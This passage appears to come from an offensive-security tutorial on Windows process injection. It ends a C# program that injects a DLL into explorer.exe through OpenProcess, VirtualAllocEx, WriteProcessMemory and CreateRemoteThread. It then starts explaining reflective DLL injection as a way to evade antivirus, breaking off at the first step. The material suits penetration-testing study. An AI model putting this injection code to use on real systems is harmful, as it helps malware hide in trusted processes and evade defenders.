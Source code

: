 ```csharp
            }


            Process[] expProc = Process.GetProcessesByName("explorer");

            int pid = expProc[0].Id;

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            IntPtr outSize;

            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);

        }

    }

}
```


## Reflective Dll Injection

Reflective DLL injection is a sophisticated technique often used in penetration testing and by malicious actors. This technique allows an attacker to inject a DLL into the memory of a process without writing the DLL to disk, making it harder to detect by traditional antivirus tools. 

Reflective DLL injection typically involves loading a DLL into the memory of a process and executing its code without using the standard Windows API (e.g., `LoadLibrary`). Instead, it uses custom code to manually map the DLL into memory.

### **Overview of Reflective DLL Injection**

1. **Reflective DLL**: A DLL that includes a loader function within it, responsible for loading the DLL into memory and resolving dependencies.
2. **Injector Process**: A process that injects the reflective DLL into the target process. The injection can be done using techniques like `CreateRemoteThread`, `SetThreadContext`, or even PowerShell.

### **Steps Involved in Reflective DLL Injection**

1. **Create a Reflective DLL**:
    - The DLL includes a custom loader that handles its own loading process (mapping sections, resolving imports, etc.).
    